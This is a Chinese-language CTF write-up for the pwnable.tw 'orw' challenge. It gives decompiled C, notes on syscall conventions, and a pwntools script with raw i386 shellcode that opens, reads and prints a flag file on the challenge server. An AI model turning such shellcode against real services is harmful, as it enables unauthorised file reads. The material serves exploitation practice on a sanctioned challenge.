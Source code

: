 ## 0x00 分析

首先，题目的目的是

```
Read the flag from /home/orw/flag.

Only open read write syscall are allowed to use.

```

也就是只能通过`open`、`read`、`write`，来读取文件`/home/orw/flag`

ida 分析之，即从stdin读取0xc8=200个字节，然后执行这段代码

ida的f5如下

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  orw_seccomp();
  printf("Give my your shellcode:");
  read(0, &shellcode, 200u);
  // ((void (*)(void)) 转换为指向函数的指针类似
  ((void (*)(void))shellcode)();
  return 0;
}

```

`void(*)(void)`是函数指针，函数类似原型`void function(void)`

```c
void(*p)(void); /*定义一个函数指针*/
p=(void(*)(void))&shellcode;
p();

```

因此，本题的主要目的是构造shellcode

以下是需要注意的点

* [系统调用号](https://www.informatik.htw-dresden.de/~beck/ASM/syscall_list.html)

<!-- todo 调试说明？ -->
* linux 32位的入参顺序  从右至左依次入栈
      
    > linux 64位参数传递是按照rdi、rsi、rdx、rcx、r8、r9的顺序存放第一个参数到第六个参数。对于超出6个参数的入参还是和32位机器一样放入栈中。

* linux的返回值一般在寄存器eax中
* sys_open
    * 


## 0x01 调试

将地址入栈

![](assets/2019-08-02-17-16-04.png)


## 0x02

```py
# coding:utf-8

from pwn import *
from pwnlib import *

# p = process('./orw')
p = remote('chall.pwnable.tw', 10001)


def gdb_attach(p):
    context.terminal = ['gnome-terminal', '-x', 'sh', '-c']
    gdb.attach(proc.pidof(p)[0])


push_file_name = shellcraft.i386.pushstr("/home/orw/flag")
open_file = shellcraft.i386.linux.syscall("SYS_open", 'esp')
read_file_to_fd = shellcraft.i386.linux.syscall("SYS_read", 'eax', 'esp', 0x30)
write_from_fd_to_stdin = shellcraft.i386.linux.syscall("SYS_write", 1, 'esp', 0x30)
shellcode = push_file_name+open_file + read_file_to_fd+write_from_fd_to_stdin

# shellcode = ''
# shellcode += "xor ecx,ecx;mov eax,0x5;push ecx;push 0x67616c66;push 0x2f77726f;push 0x2f656d6f;push 0x682f2f2f;mov ebx,esp;"
# shellcode += "xor edx,edx;int 0x80;mov eax,0x3;mov ecx,ebx;mov ebx,0x3;mov dl,0x30;int 0x80;"
# shellcode += "mov eax,0x4; mov bl,0x1;int 0x80;"

p.recvuntil(":")
payload = asm.asm(shellcode)
# gdb_attach(p)
p.send(payload)
p.interactive()


```
